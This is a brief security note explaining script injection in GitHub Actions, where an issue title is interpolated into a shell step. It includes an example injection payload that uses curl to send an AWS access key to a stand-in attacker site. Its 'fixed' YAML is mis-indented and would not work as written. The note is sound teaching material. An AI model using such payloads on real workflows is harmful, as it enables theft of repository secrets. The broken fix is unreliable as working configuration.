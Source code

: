 # Security and Permissions


```yaml
 - name: Assign label
   run: |
      issue_title="${{ github.event.issue.title }}"
      if [[ "$issue_title" == *"bug"* ]]; then
      echo "Issue is about a bug!"
      else
      echo "Issue is not about a bug"
      fi
```


This code is vulnerable to script injection.
Formally, a malicious agent could do something like this:

`a";curl http;//my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`

and gain access to sensitive data, like the aws_access_key_id, which 
generally is stored in a repository secret.

The first way that comes to mind to avoid this 
situation is using a github actions, because the injection would never reach a shell.

If you must use your own comand is better to use an environment variable to store
your title.

```yaml
- name: Assign label
    env: 
      TITLE: ${{ github.event.issue.title }}
        run: |
          if [[ "$TITLE" == *"bug"* ]]; then
          echo "Issue is about a bug!"
          else
          echo "Issue is not about a bug"
          fi
```